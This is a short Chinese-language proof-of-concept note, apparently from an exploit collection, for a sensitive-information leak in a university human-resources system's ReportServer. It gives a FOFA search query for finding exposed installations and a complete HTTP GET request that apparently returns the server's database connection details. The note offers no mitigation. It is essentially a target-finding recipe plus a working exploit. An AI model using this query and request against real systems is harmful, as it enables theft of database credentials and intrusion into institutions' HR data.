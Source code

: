 # 高校人力资源管理系统ReportServer存在敏感信息泄露漏洞
高校人力资源管理系统ReportServer存在敏感信息泄露漏洞

## fofa
```javascript
body="FM_SYS_ID" || body="product/recruit/website/RecruitIndex.jsp"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1729414884399-6be61b88-4e82-42e2-bfb0-451f6e130f92.png)

## poc
```java
GET /ReportServer?op=Fr_server&cmd=Sc_getconnectioninfo HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1729415182606-37ca16b7-4b31-40ae-b37a-7350c1af4d59.png)

